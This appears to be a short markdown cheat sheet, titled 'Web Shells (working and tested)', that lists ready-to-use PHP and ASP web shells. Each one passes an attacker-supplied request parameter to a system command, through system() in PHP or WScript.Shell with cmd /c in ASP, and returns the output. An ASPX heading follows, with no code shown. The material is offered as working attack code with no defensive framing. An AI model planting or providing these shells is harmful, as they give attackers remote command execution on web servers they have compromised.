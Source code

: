 # Web Shells (working and tested)
## PHP
<pre>
&lt;?php system($_GET['cmd']); ?&gt;
</pre>
<pre>
&lt;?php system($_GET[1]); ?&gt;
</pre>
## ASP
<pre>
&lt;%
Set rs = CreateObject("WScript.Shell")
'Set cmd = rs.Exec("cmd /c whoami")
Set cmd = rs.Exec("cmd /c " & request("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
%&gt;
</pre>
## ASPX
...
